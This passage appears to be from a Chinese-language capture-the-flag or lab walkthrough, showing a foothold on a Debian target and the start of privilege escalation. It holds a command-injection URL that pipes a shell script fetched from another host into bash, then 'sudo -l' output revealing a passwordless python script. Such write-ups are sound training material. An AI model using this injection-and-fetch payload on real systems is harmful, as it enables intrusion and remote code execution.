 ![](./images/image-121.png)

```
http://192.168.237.155/secret.php?command=curl 192.168.237.147/shell.sh|bash
```

![](./images/image-122.png)

## Own debian

查看**www-data**的特殊命令

```
www-data@debian:/var/www/html/shop$ sudo -l
sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    targetpw, use_pty

User www-data may run the following commands on debian:
    (debian) NOPASSWD: /usr/bin/python3 /var/www/html/vuln.py
```
